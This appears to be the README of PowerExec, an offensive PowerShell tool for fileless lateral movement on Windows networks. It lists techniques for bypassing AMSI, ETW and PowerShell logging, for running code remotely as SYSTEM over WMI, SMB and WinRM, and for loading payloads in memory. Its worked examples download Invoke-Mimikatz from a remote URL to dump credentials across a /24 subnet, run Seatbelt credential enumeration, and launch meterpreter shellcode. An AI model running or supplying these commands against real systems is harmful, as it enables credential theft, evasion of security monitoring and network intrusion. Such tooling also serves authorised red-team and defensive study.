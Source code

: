 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                                            |
| --------------- | ---------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                 |
| CimTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via WMI |
| CimService      | Create temporary service running as NT AUTHORITY\SYSTEM via WMI        |
| CimSubscription | Create temporary WMI event subscription (experimental)                 |
| SmbService      | Create temporary service running as NT AUTHORITY\SYSTEM via SMB        |
| WinRM           | Run powershell via Windows Remote Management                           |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WMI using a download cradle while bypassing AMSI and ETW :

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,ETW
PS C:\> Invoke-PowerExec -ComputerList 192.168.1.0/24 -ScriptBlock $payload -Method CimProcess -Protocol Wsman -Threads 10
```

Run a .NET assembly through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging :

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\Seatbelt.exe -ArgumentList 'CredEnum' -Bypass AMSI,PML,SBL | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Method WinRM
```

Run a shellcode through a service :

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
